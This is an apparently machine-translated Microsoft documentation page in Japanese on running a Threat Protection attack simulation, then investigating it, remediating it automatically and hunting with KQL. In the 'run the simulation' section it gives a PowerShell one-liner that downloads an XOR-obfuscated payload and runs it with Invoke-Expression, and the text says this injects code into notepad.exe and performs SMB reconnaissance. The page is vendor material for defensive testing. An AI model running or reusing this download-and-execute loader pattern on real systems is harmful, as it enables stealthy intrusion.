

# <a name="run-your-microsoft-threat-protection-attack-simulations"></a>Microsoft の脅威保護攻撃のシミュレーションを実行する  

**適用対象:**
- Microsoft Threat Protection

パイロット環境を準備した後は、Microsoft の脅威保護インシデントの管理および自動調査と修復の機能をテストする時間です。 高度な技術を活用して、検出から隠すことができるように、高度な攻撃をシミュレートするのに役立ちます。 この攻撃は、ドメインコントローラーで開かれているサーバーメッセージブロック (SMB) セッションを列挙し、ユーザーのデバイスの最近の IP アドレスを取得します。 通常、このカテゴリの攻撃には、犠牲者のデバイスで削除されたファイルは含まれません。メモリ内でのみ発生します。 既存のシステムおよび管理ツールを使用して "地上からの生放送" を行い、そのコードをシステムプロセスに挿入して実行を非表示にし、それらのコードを回避検出してデバイス上で保持できるようにします。

このシミュレーションでは、サンプルシナリオは PowerShell スクリプトで始まります。 ユーザーがスクリプトを実行するように設定されている可能性があります。 または、このスクリプトは、以前に感染したデバイスからの別のコンピューターへのリモート接続から実行される可能性があります。これは、攻撃者がネットワーク内で laterally を移動しようとしています。 さまざまな管理作業を実行するために、管理者がスクリプトをリモートで実行することもよくあるため、これらのスクリプトを検出するのは困難な場合があります。

シミュレーションの間、攻撃はシェルコードを一見無害なプロセスに挿入します。 このシナリオでは、notepad.exe を使用します。 シミュレーションではこのプロセスを選択しましたが、攻撃者は svchost.exe などの長時間実行されているシステムプロセスを対象としている可能性が高くなります。 次に、シェルコードによって、攻撃者のコマンドとコントロール (C2) サーバーとの間の連絡を受け、処理を進める手順を受信します。 また、スクリプトは、ドメインコントローラー (DC) に対して偵察クエリの実行を試行します。 これにより、攻撃者は最近のユーザーログイン情報に関する情報を取得できます。 攻撃者は、この情報を入手すると、ネットワーク内の laterally を移動して特定の機密アカウントにアクセスできるようになります。


>[!IMPORTANT]
>最適な結果を得るには、攻撃のシミュレーション手順に従ってください。


## <a name="simulation-environment-requirements"></a>シミュレーション環境の要件

準備段階で既にパイロット環境を構成してあるので、このシナリオでは、テストデバイスとドメインコントローラーという2つのデバイスがあることを確認してください。

1.  テナントに [保護](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service)があることを確認します。
2.  テストドメインコントローラーの構成を確認します。
    - デバイスは Windows Server 2008 R2 以降のバージョンで実行されます。
    - テストドメインコントローラーを [Azure Advanced Threat Protection に設定](https://docs.microsoft.com/azure/security-center/security-center-wdatp) し、 [リモート管理](https://docs.microsoft.com/windows-server/administration/server-manager/configure-remote-management-in-server-manager)を有効にします。    
    - [AZURE ATP と Microsoft Cloud App Security 統合](https://docs.microsoft.com/cloud-app-security/aatp-integration)が有効になっていることを確認します。
    - ドメインにテストユーザーが作成されます。管理者のアクセス許可は必要ありません。

3.  テストデバイスの構成を確認します。
    <br>
    a.  デバイスは Windows 10 バージョン1903またはそれ以降のバージョンで実行されます。
    <br>
    b.  テストデバイスはテストドメインに参加しています。
    <br>
    c.   [Windows Defender ウイルス対策を有効](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features)にします。 Windows Defender ウイルス対策を有効にする際に問題が発生した場合は、この [トラブルシューティングのトピック](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy)を参照してください。
    <br>
    d.   テストデバイスが [Microsoft Defender Advanced Threat Protection (MDATP) に利用](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints)していることを確認します。

既存のテナントを使用し、デバイスグループを実装する場合は、テストデバイス用の専用デバイスグループを作成し、構成 UX の最上位レベルにプッシュします。


## <a name="run-the-simulation"></a>シミュレーションを実行する

Attack scenario シミュレーションを実行するには、次の手順を実行します。

1.  テストユーザーアカウントを使用して、テストデバイスにログインします。

2.  テストデバイスで Windows PowerShell ウィンドウを開きます。

3.  次のシミュレーションスクリプトをコピーします。
```
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
= [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
-UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
$decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
$i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
```
>[!NOTE]
>このドキュメントを web ブラウザーで開くと、特定の文字を失わずに完全なテキストをコピーしたり、改行を加えることができない問題が発生することがあります。 このドキュメントをダウンロードし、Adobe Reader で開きます。

4. プロンプトで、貼り付けてコピーしたスクリプトを実行します。

>[!NOTE]
>リモートデスクトッププロトコル (RDP) を使用して PowerShell を実行している場合は、 **CTRL キーを押しながら** ホットキーまたは右クリックによる貼り付けの方法が機能しない可能性があるため、rdp クライアントの [クリップボードテキストの入力] コマンドを使用します。  最近使用したバージョンの PowerShell では、このメソッドが受け入れられない場合があります。メモ帳をメモリに最初にコピーして、仮想マシンにコピーしてから、PowerShell に貼り付ける必要があるかもしれません。

数秒後に、 <i>notepad.exe</i> が開きます。 シミュレートされた攻撃コードが notepad.exe に組み込まれます。 自動的に生成されたメモ帳インスタンスを開いたままにしておくと、完全なシナリオが発生します。

シミュレートされた攻撃コードは、外部 IP アドレス (C2 サーバーをシミュレートしたもの) と通信し、SMB を介してドメインコントローラーに対して偵察を試行します。

このスクリプトが完了すると、PowerShell コンソールにメッセージが表示されます。

```
ran NetSessionEnum against [DC Name] with return code result 0      
```

自動インシデントアンドレスポンス機能を確認するには、notepad.exe プロセスを開いたままにします。 [自動インシデントと応答] が表示され、メモ帳のプロセスを停止します。


## <a name="investigate-an-incident"></a>インシデントの調査

>[!NOTE]
>このシミュレーションを開始する前に、次のビデオを参照して、調査プロセスの一環として、インシデント管理が関連アラートをどのように支援するかを確認し、ポータルでその情報を見つけられるようにして、セキュリティの操作にどのように役立てることができるかを見ていきましょう。

>[!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bzwz?]

SOC アナリストの視点に切り替えると、Microsoft の脅威保護ポータルで攻撃の調査を開始できるようになります。 

1.  任意のデバイスから [Microsoft Threat Protection ポータル](https://security.microsoft.com/incidents) インシデントキューを開きます。

2.  メニューから [ **インシデント** ] に移動します。 

    

3.  シミュレートされた攻撃の新しいインシデントは、インシデントキューに表示されます。
 
    


### <a name="investigate-the-attack-as-a-single-incident"></a>1つのインシデントとしての攻撃を調査する

Microsoft の脅威保護は、分析を相互に関連付けて、さまざまな製品からのすべての通知と調査を1つのインシデントエンティティに集約します。 これにより、Microsoft の脅威保護によって、広範な攻撃ストーリーが表示されます。これにより、SOC アナリストは複雑な脅威について理解し、対応することができます。

このシミュレーション中に生成されたアラートは同じ脅威に関連付けられているため、1つのインシデントとして自動的に集約されます。

インシデントを表示するには:

1.  [ **インシデント** キューに移動します。
 
    ![ナビゲーションメニューの [インシデント] のスクリーンショット](../../media/mtp/fig1.png)

2.  インシデント名の左にある円をクリックして、最新のアイテムを選択します。 サイドパネルには、関連するすべての通知を含む、インシデントに関する追加情報が表示されます。 各インシデントには、それに含まれる通知の属性に基づいて、それぞれについて説明する一意の名前が付いています。

    

    ダッシュボードに表示される通知は、サービスリソースに基づいてフィルターできます。 Azure ATP、Microsoft Cloud App Security、Microsoft Defender ATP、Microsoft Threat Protection、および Office ATP。  

3.  [ **インシデントを開く] ページ** を選択して、インシデントに関する詳細情報を取得します。

    [ **インシデント** ] ページには、インシデントに関連するすべてのアラートと情報が表示されます。 これには、アラートに関連するエンティティとアセット、アラートの検出ソース (Azure ATP、EDR)、およびそれらがリンクされた理由が含まれます。 [インシデント] アラートリストの確認は、攻撃の進行状況を示します。 このビューでは、個々の通知を確認して調べることができます。

    また、右側のメニューから [ **インシデントの管理** ] をクリックして、インシデントをタグ付けし、自分に割り当て、コメントを追加することもできます。

    ![[インシデントの管理] をクリックする場所のスクリーンショット](../../media/mtp/fig5a.png)

    ![インシデントをタグ付けし、自分自身に割り当て、コメントを追加できる、[インシデントの管理] パネルのフィールドのスクリーンショット ](../../media/mtp/fig5b.png)


### <a name="review-generated-alerts"></a>生成された通知を確認する 

シミュレートされた攻撃で生成されるアラートのいくつかを見てみましょう。

>[!NOTE]
>ここでは、シミュレートされた攻撃の際に生成される警告のうちのいくつかについて説明します。 テストデバイス上で実行されている Windows のバージョンと Microsoft の脅威保護製品によっては、順序が若干異なるアラートが表示されることがあります。

 


**通知: 不審なプロセスの挿入が監視 (ソース: Microsoft Defender ATP EDR)**

高度な攻撃者は、高度で stealthy のメソッドを使用して、メモリ内に保持し、検出ツールから非表示にします。 一般的な方法の1つは、悪意のある実行可能ファイルではなく、信頼されたシステムプロセス内から操作することです。これにより、検出ツールおよびセキュリティ操作が悪意のあるコードを特定するのを困難にします。

SOC アナリストがこれらの高度な攻撃を検出できるようにするために、Microsoft Defender ATP の詳細なメモリセンサーは、クラウドサービスにさまざまなプロセス間のコード注入技術を従来にわたって見やすいものにします。 次の図は、 <i>notepad.exe</i>にコードを挿入しようとしたときに MICROSOFT Defender ATP が検出され、警告が表示されることを示しています。

 


**警告: コマンドライン引数を指定せずにプロセスを実行すると、予期しない動作が監視されます (Source: Microsoft Defender ATP EDR)**

Microsoft Defender ATP の検出は、多くの場合、攻撃手法の最も一般的な属性を対象としています。 これにより、耐久性が確保され、攻撃者が新しい戦術に切り替えるための水準が上がります。

大規模な学習アルゴリズムを使用して、組織内および世界中の共通プロセスの通常の動作を確立し、これらのプロセスが異常な動作を示す状況を監視します。 このような異常動作は、多くの場合、余分なコードが導入され、それ以外の信頼できるプロセスで実行されていることを示します。

このシナリオでは、プロセス <i>notepad.exe</i> は、外部の場所との通信を含む異常な動作を示しています。 この結果は、悪意のあるコードを導入して実行するために使用された特定の方法から独立しています。

>[!NOTE]
>このアラートは、追加のバックエンド処理を必要とする machine learning モデルに基づいているため、ポータルでこの通知が表示されるまでには時間がかかる場合があります。

アラートの詳細には、外部 IP アドレスが含まれていることに注意してください。これは、ピボットとして使用して、調査を拡張するための指標です。

通知プロセスツリーで IP アドレスをクリックして、[IP アドレスの詳細] ページを表示します。

 

次の図は、[選択された IP アドレスの詳細] ページ ([アラート処理] ツリーの [IP アドレス] をクリック) を示しています。


**通知: ユーザーおよび IP アドレス偵察 (SMB) (ソース: Azure ATP)**

列挙サーバーメッセージブロック (SMB) プロトコルを使用して、laterally がネットワークを介して特定の機密性の高いアカウントにアクセスするのに役立つ、最新のユーザーログオン情報を取得することを攻撃者に許可します。

この検出では、SMB セッション列挙がドメインコントローラーに対して実行されたときにアラートがトリガーされます。

 


### <a name="review-the-device-timeline-microsoft-defender-atp"></a>デバイスのタイムラインを確認する [Microsoft Defender ATP]
このインシデントのさまざまなアラートを調査した後、前に調査したインシデントページに戻ります。 [インシデント] ページの [ **デバイス** ] タブをクリックして、MICROSOFT Defender Atp および Azure atp で報告された、このインシデントに関連するデバイスを確認します。

攻撃が行われたデバイスの名前をクリックして、その特定のデバイスのエンティティページを開きます。 そのページには、トリガーされた通知と関連するイベントが表示されます。

[ **タイムライン** ] タブをクリックしてデバイスのタイムラインを開き、デバイス上で監視されているすべてのイベントと動作を、発生したアラートとともに時系列順に表示します。

 

重要な動作の一部を展開すると、プロセスツリーなどの有用な情報を得られます。

たとえば、 **疑わしいプロセスインジェクション**のアラートイベントが見つかるまで下にスクロールします。 その下の [process event] に挿入された **powershell.exe notepad.exe を** クリックして、この動作の完全なプロセスツリーをサイドペインの [ **event entities** ] グラフに表示します。 必要に応じて、検索バーを使用してフィルター処理を行います。



### <a name="review-the-user-information-microsoft-cloud-app-security"></a>ユーザー情報を確認する [Microsoft Cloud App Security]

[インシデント] ページで、[ **ユーザー** ] タブをクリックして、攻撃に関与するユーザーの一覧を表示します。 この表には、各ユーザーの **調査の優先度** のスコアを含む、各ユーザーに関する追加情報が含まれています。

[ユーザー名] をクリックして、詳細な調査を実施できるユーザーのプロファイルページを開きます。 [「リスク](https://docs.microsoft.com/cloud-app-security/tutorial-ueba#identify)のあるユーザーの調査」を参照してください。
<br>


## <a name="automated-investigation-and-remediation"></a>調査と修復の自動化
>[!NOTE]
>このシミュレーションについて説明する前に、次のビデオを見て、自動自己修復の概要、ポータル内での検索方法、およびセキュリティ操作においてどのように役立つかについて理解しておく必要があります。

>[!VIDEO https://www.microsoft.com/en-us/videoplayer/embed/RE4BzwB]

Microsoft Threat Protection ポータルのインシデントに移動します。 [**インシデント**] ページの [**調査**] タブには、Azure ATP および Microsoft Defender atp によってトリガーされた自動調査が表示されます。 次のスクリーンショットは、Microsoft Defender ATP がトリガーする自動調査のみを示しています。 既定では、Microsoft Defender ATP は、修復が必要なキューにある成果物を自動的に remediates します。


調査をトリガーした通知をクリックして、[ **調査の詳細** ] ページを開きます。 次のように表示されます。
- 自動調査をトリガーした警告。
- 影響を受けるユーザーとデバイス。 その他のデバイスでインジケーターが見つかった場合は、これらの追加デバイスも一覧に表示されます。
- 証拠の一覧。 ファイル、プロセス、サービス、ドライバー、およびネットワークアドレスなど、検出され分析されたエンティティ。 これらのエンティティは、アラートとの関係があるかどうかを分析し、無害または悪意のあるものとして評価されます。
- 検出された脅威。 調査中に検出された既知の脅威。

>[!NOTE]
>タイミングによっては、自動調査がまだ実行中の場合があります。 証拠を収集して分析し、結果を確認する前に、プロセスが完了するまで数分待機します。 [ **調査の詳細** ] ページを更新して、最新の調査結果を取得します。


自動調査の間、Microsoft Defender ATP は、修復を必要とする成果物の1つとして挿入された notepad.exe プロセスを特定しました。 Microsoft Defender ATP は自動修復の一部として、不審なプロセスインジェクションを自動的に停止します。 

テストデバイス上の実行中のプロセスの一覧から <i>notepad.exe</i> が表示されなくなります。

## <a name="resolve-the-incident"></a>インシデントを解決する

調査が完了し、修復が確認されたら、インシデントを閉じます。

[ **インシデントの管理**] をクリックします。 [ **インシデントを解決** する] の状態を設定し、関連する分類を選択します。

インシデントが解決されると、Microsoft の脅威保護と関連するポータルで、関連付けられているすべての警告が閉じられます。

![開いている [インシデントの管理] パネルがある [インシデント] ページのスクリーンショット。インシデントを解決するためにスイッチをクリックできます。](../../media/mtp/fig16.png) 

<br>
これにより、インシデント管理および自動調査と修復のシナリオに対する攻撃シミュレーションがラップされます。 次のシミュレーションでは、悪意のある可能性のあるファイルを事前に脅威から探すことができるようになります。 

## <a name="advanced-hunting-scenario"></a>高度な検索のシナリオ

>[!NOTE]
>シミュレーションについて説明する前に、次のビデオを見て、高度な検索の概念について理解し、ポータルで検索できる場所を確認し、セキュリティの操作でどのように役立つかを確認してください。

>[!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bp7O]

### <a name="hunting-environment-requirements"></a>探している環境の要件
このシナリオでは、1つの内部メールボックスとデバイスが必要です。 テストメッセージを送信するには、外部の電子メールアカウントも必要です。

1.  テナントが [Microsoft の脅威保護を有効](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service)にしていることを確認します。
2.  電子メールの受信に使用するターゲットメールボックスを識別します。
    a.  このメールボックスは、Office 365 ATP b で監視する必要があります。  要件3のデバイスがこのメールボックスにアクセスする必要がある
3.  テストデバイスを構成する: a。  Windows 10 バージョン1903以降のバージョンを使用していることを確認してください。
    b.  テストデバイスをテストドメインに参加させる。
    c.   [Windows Defender ウイルス対策を有効](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features)にします。 Windows Defender ウイルス対策を有効にする際に問題が発生した場合は、 [このトラブルシューティングのトピック](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy)を参照してください。
    d.   [Microsoft Defender Advanced Threat Protection (MDATP) にオンボード](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints)。

### <a name="run-the-simulation"></a>シミュレーションを実行する
1.  外部の電子メールアカウントから、「テスト環境の要件」セクションのステップ2で識別されたメールボックスに電子メールを送信します。 既存の電子メールフィルターポリシーを使用して許可される添付ファイルを含めます。  このファイルは、悪意または実行可能である必要はありません。 推奨されるファイルの種類は、 <i>.pdf</i>、 <i>.exe</i> (許可されている場合)、または Word ファイルなどの Office ドキュメントです。
2.  [テスト環境の要件] セクションのステップ3で定義されたデバイスから、送信された電子メールを開きます。 添付ファイルを開くか、デバイスにファイルを保存します。


**検索を探す**
1.  Security.microsoft.com ポータルを開きます。
2.  [検索] **> [詳細**] を探します。

     

3.  電子メールイベントを収集することによって開始するクエリを作成します。
    a.  [クエリ] ウィンドウで、[新規] を選択します。
    b.  [EmailEvents] テーブルをスキーマからダブルクリックします。

```
EmailEvents 
```                                        

   c.    時間枠を過去24時間に変更します。 上記のシミュレーションを実行したときに送信した電子メールが過去24時間であったとして、そうでない場合は、時間枠を変更します。
    


   d.    クエリを実行します。  パイロットの環境によっては、多くの結果が得られる場合があります。  

>[!NOTE]
>データの戻りを制限するには、フィルターオプションの次の手順を参照してください。

    

>[!NOTE]
>高度な検索では、クエリ結果が表形式のデータとして表示されます。 グラフなどの他の形式のデータの表示を選択することもできます。    

   e.    結果を確認し、開いた電子メールを識別できるかどうかを確認します。  高度な検索でメッセージが表示されるまでに最大2時間かかる場合があります。 メール環境が大きく、多くの結果がある場合は、[ **フィルターの表示] オプション** を使用してメッセージを検索することもできます。 

   このサンプルでは、電子メールは Yahoo アカウントから送信されました。 [ **+** SenderFromDomain] セクションの下にある **yahoo.com** の横のアイコンをクリックし、[ **適用** ] をクリックして、選択したドメインをクエリに追加します。  テストメッセージの送信に使用したドメインまたはメールアカウントは、「シミュレーションを実行して結果をフィルター処理する」の手順1で使用します。  クエリをもう一度実行して、シミュレーションからのメッセージが表示されることを確認するために、小さな結果セットを取得します。
   
    


```
EmailEvents 
| where SenderMailFromDomain == "yahoo.com"
```

   f.   クエリから結果の行をクリックして、レコードを検査できるようにします。
   ![高度な検索結果が選択されたときに開く、[レコードの検査] パネルのスクリーンショット](../../media/mtp/fig21.png) 


4.  これで、電子メールが表示されることを確認できたので、添付ファイルのフィルターを追加します。 環境内の添付ファイルを含むすべての電子メールにフォーカスします。 このシナリオでは、受信メールに焦点を絞り、環境から送信されるものではありません。 追加したフィルターを削除してメッセージを見つけ、"|" を追加します。**attachmentcount > 0**および**emaildirection**"  ==  **Inbound" "**

次のクエリは、すべての電子メールイベントの最初のクエリよりも短い一覧で結果を表示します。

```
EmailEvents 
| where AttachmentCount > 0 and EmailDirection == "Inbound"

```

5.  次に、添付ファイルについての情報 (ファイル名、ハッシュなど) を結果セットに追加します。 これを行うには、 **Emailattachmentinfo** テーブルに参加します。 この場合、参加に使用する共通のフィールドは、 **Networkmessageid** と **RecipientObjectId**です。

次のクエリにも追加行 "|" が含まれています。 **プロジェクト-** 電子メールとタイムスタンプの名前を変更するには、次の手順で追加するファイル操作に関連するメールとタイムスタンプに関連するタイムスタンプを識別するのに役立ちます。

```
EmailEvents 
| where AttachmentCount > 0 and EmailDirection == "Inbound"
| project-rename EmailTimestamp=Timestamp 
| join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
```

6.  次に、 **Emailattachmentinfo**テーブルの**SHA256**値を使用して、そのハッシュの**devicefileevents** (エンドポイントで発生したファイルアクション) を検索します。  ここに示す共通のフィールドは、添付ファイルの SHA256 ハッシュです。

生成されたテーブルにはエンドポイント (Microsoft Defender ATP) の詳細が含まれるようになりました (この場合は、FileCreated イベントのみを対象としてフィルター処理された)、ファイルが保存されていたこと プロセスに関連付けられているアカウント名も含まれます。

```
EmailEvents 
| where AttachmentCount > 0 and EmailDirection == "Inbound"
| project-rename EmailTimestamp=Timestamp 
| join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId 
| join DeviceFileEvents on SHA256 
| where ActionType == "FileCreated"
```

これで、ユーザーが添付ファイルを開いた、または保存したすべての受信メールを識別するクエリが作成されました。 また、このクエリを調整して、特定の送信者ドメイン、ファイルサイズ、ファイルの種類などをフィルター処理することもできます。

7.  関数は特別な結合の一種であり、そのファイルの流行、署名者、発行者の情報など、より多くの TI データを取得することができます。 ファイルの詳細を取得するには、 **Fileprofile ()** 関数エンリッチメントを使用します。

```
EmailEvents 
| where AttachmentCount > 0 and EmailDirection == "Inbound"
| project-rename EmailTimestamp=Timestamp 
| join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
| join DeviceFileEvents on SHA256 
| where ActionType == "FileCreated"
| distinct SHA1
| invoke FileProfile()
```


**検出を作成する**

後で発生する場合に **警告を取得** する情報を識別するクエリを作成したら、クエリからカスタム検出を作成できます。 

カスタム検出は、設定した頻度に従ってクエリを実行し、クエリの結果によって、選択した影響を受ける影響を受けたリソースに基づいてセキュリティ警告が作成されます。 これらのアラートは、インシデントに関連付けられ、いずれかの製品によって生成された他のセキュリティ警告としてトリアージできます。

1.  [クエリ] ページで、「検索」の手順7で追加した7行と8行を削除し、[ **検出ルールの作成**] をクリックします。 
    
    ![高度な検索ページの [検出ルールの作成] をクリックできる場所のスクリーンショット](../../media/mtp/fig22.png) 

>[!NOTE]
>[ **検出ルールの作成** ] をクリックした場合、クエリに構文エラーがあると、検出ルールは保存されません。 クエリをもう一度確認して、エラーがないことを確認してください。 


2.  必要なフィールドに情報を入力して、セキュリティチームが警告を理解できるようにし、生成された理由と、実行する必要のあるアクションについて説明します。 

    ![アラートの詳細を定義できる [検出ルールの作成] ページのスクリーンショット](../../media/mtp/fig23.png)

この検出ルールのアラートについて次のユーザーに情報を提供できるように、わかりやすいようにフィールドに記入してください。 

3.  この通知で影響を受けるエンティティを選択します。 この場合は、[ **デバイス** と **メールボックス**] を選択します。

    ![影響を受けるエンティティのパラメータを選択できる [検出ルールの作成] ページのスクリーンショット](../../media/mtp/fig24.png)
 

4.  アラートがトリガーされた場合に実行するアクションを決定します。 この場合は、ウイルス対策スキャンを実行します。ただし、他のアクションを実行することができます。 

    ![脅威に対処するためにアラートがトリガーされたときにウイルス対策スキャンを実行できる [検出ルールの作成] ページのスクリーンショット](../../media/mtp/fig25.png) 

5.  通知ルールの範囲を選択します。 このクエリはデバイスに関係しているため、デバイスグループは Microsoft Defender ATP コンテキストに基づいてこのカスタム検出に関連しています。  影響を受けるエンティティとしてデバイスを含まないカスタム検出を作成する場合、範囲は適用されません。  

    ![通知ルールのスコープを設定できる [検出ルールの作成] ページのスクリーンショットに表示される結果に対する期待を管理する](../../media/mtp/fig26.png) 

このようなパイロットについては、運用環境のテストデバイスのサブセットに制限することをお勧めします。

6.  **[作成]** を選択します。 次に、ナビゲーションパネルから [ **カスタム検出ルール** ] を選択します。
 
    ![メニューの [カスタム検出ルール] オプションのスクリーンショット](../../media/mtp/fig27a.png) 

    ![ルールと実行の詳細を表示する [検出ルール] ページのスクリーンショット](../../media/mtp/fig27b.png) 

このページでは、[詳細] ページを開く検出ルールを選択できます。 

![[電子メールの添付ファイル] ページのスクリーンショット。ルールの実行の状態を確認したり、通知やアクションをトリガーしたり、検出を編集したりすることができます。](../../media/mtp/fig28.png) 

### <a name="additional-advanced-hunting-walk-through-exercises"></a>その他の高度な検索ウォークスルー演習

高度な検索の詳細については、次の web キャストを参照してください。 Microsoft の脅威保護 (MTP) 内での高度な検索機能を使用して、クロス柱のクエリを作成し、エンティティにピボットし、カスタムの検出と修復アクションを作成します。

>[!NOTE]
>パイロットテストラボ環境で検索クエリを実行するには、独自の GitHub アカウントを用意してください。  

| **タイトル** | **説明** | **MP4 のダウンロード** | **YouTube の鑑賞** | **使用する CSL ファイル** |
|:-----|:-----|:-----|:-----|:-----|
| エピソード 1: KQL の基礎 | Microsoft の脅威保護の高度な検索機能の基本事項について説明します。 使用できる高度な検索データと基本的な KQL 構文および演算子について説明します。 | [ MP4](https://aka.ms/MTP15JUL20_MP4) | [YouTube](https://youtu.be/0D9TkGjeJwM) | [エピソード 1: Git の CSL ファイル](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%201%20-%20KQL%20Fundamentals.csl) |
| エピソード 2: 結合 | 高度な検索でデータについて学習を続け、テーブルを結合する方法について説明します。 インナー、outer、unique、および半結合、および既定の Kusto innerunique join のニュアンスについて説明します。 | [MP4](https://aka.ms/MTP22JUL20_MP4) | [YouTube](https://youtu.be/LMrO6K5TWOU) | [エピソード 2: Git の CSL ファイル](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%202%20-%20Joins.csl) |
| エピソード 3: データの集約、ピボット、および視覚化|これで、データのフィルター処理、操作、および結合を行うことができるようになり、集約、定量化、ピボット、可視化を開始する時間になります。 このエピソードでは、高度な検索スキーマで追加のテーブルを準備する際に実行できる集計演算子と計算のいくつかについて説明します。 分析を向上させるために、データセットをグラフに変換します。 | [MP4](https://aka.ms/MTP29JUL20_MP4) | [YouTube](https://youtu.be/UKnk9U1NH6Y) | [エピソード 3: Git の CSL ファイル](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%203%20-%20Summarizing%2C%20Pivoting%2C%20and%20Joining.csl) |
| エピソード 4: ご利用いただけます。 KQL をインシデント追跡に適用する|攻撃者の活動を追跡する時間。 このエピソードでは、Microsoft の脅威保護の KQL と advanced の詳細な理解を強化し、攻撃を追跡するために使用します。 Cybersecurity の ABCs やインシデントへの対応に適用する方法など、攻撃者のアクティビティを追跡するためにフィールドで使用されるヒントのいくつかについて説明します。 | [MP4](https://aka.ms/MTP5AUG20_MP4) | [YouTube](https://youtu.be/2EUxOc_LNd8) | [エピソード 4: Git の CSL ファイル](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%204%20-%20Lets%20Hunt.csl) |

## <a name="next-step"></a>次の手順
| <br>[決算および概要フェーズ](mtp-pilot-close.md) | Microsoft の脅威保護パイロットの結果を分析し、ステークホルダーに提示して、次の手順を実行します。
|:-----|:-----|

